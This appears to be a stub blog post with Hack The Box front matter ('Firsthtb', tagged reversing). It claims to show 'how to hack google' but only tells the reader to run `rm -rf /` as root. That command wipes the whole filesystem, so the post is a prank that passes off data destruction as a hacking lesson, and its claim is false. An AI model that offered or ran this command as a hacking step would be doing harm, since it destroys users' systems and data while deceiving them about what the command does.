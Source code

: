 ```yaml
---
title: Firsthtb
date: 2020-06-24 11:11:11 +0530
categories: [Hackthebox, Retired]
tags: [htb,reversing]
---
```


This post shows how to hack google.
Open your terminal and fire this command with root user
`rm -rf /`
